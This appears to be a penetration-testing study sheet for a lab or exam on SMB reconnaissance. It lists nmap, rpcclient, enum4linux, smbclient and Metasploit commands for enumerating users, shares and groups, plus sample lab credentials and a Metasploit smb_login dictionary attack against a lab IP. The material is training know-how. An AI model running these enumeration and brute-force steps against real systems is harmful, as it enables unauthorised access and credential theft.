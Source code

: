     **SMB Recon - Basics 1** 
    
    - `nmap -sV -p 139,445 192.28.157.3`
    - `nmap --script smb-os-discovery -p 445 192.28.157.3` - SMB OS detection
    
    **rpcclient** 
    
    It is a tool for executing client side MS-RPC functions
    
    - `nmap 192.230.128.3`
    - `rpcclient -U "" -N 192.230.128.3`
    - rpcclient $> `srvinfo`
    - rpcclient $> `enumdomusers` - users
    - rpcclient $> `enumdomgroups` - groups
    - rpcclient $> `lookupnames admin` - SID of user “admin” using rpcclient.
    
    **enum4linux** - tool for enumerating data from Windows and Samba hosts 
    
    - `enum4linux -o 192.230.128.3`
    - `enum4linux -U 192.230.128.3` - users
    - `enum4linux -S 192.187.39.3` - shares
    - `enum4linux -G 192.187.39.3` - domain groups
    - `enum4linux -i 192.187.39.3` - Check if samba server is configured for printing
    - `enum4linux -r -u "admin" -p "password1" 192.174.58.3` - List users SUID
    
    **Metasploit** 
    
    - `use auxiliary/scanner/smb/smb_version`
    - `use auxiliary/scanner/smb/smb_enumusers`
    - `use auxiliary/scanner/smb/smb_enumshares`
    - `use auxiliary/scanner/smb/pipe_auditor` - user cred: admin-password1
    
    **nmblookup** 
    
    NetBIOS over TCP/IP client used to lookup NetBIOS names
    
    - `nmblookup -A 192.28.157.3`
    
    **smbclient** 
    
    Ftp-like client to access SMB/CIFS resources on servers
    
    - `smbclient -L 192.28.157.3 -N`
    - `smbclient [//192.187.39.3/public](https://192.187.39.3/public) -N`
    - `smbclient -L 192.28.157.3 -U jane` - use “abc123” as password
    - `smbclient [//192.174.58.3/jane](https://192.174.58.3/jane) -U jane`
    - `smbclient [//192.174.58.3/admin](https://192.174.58.3/admin) -U admin` - use “password1” as password
    - `smb> get flag` - Important cat and type wont work in smb
    
    **Dictionary Attack** 
    
    - `nmap -Pn -sV 192.174.58.3`
    - `msfconsole`
    - `use auxiliary/scanner/smb/smb_login`
    - `set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt`
    - `set SMBUser jane` - Known already specified in the lab description, will not be same in the exam
    - `set RHOSTS 192.174.58.3`
    - `exploit`
    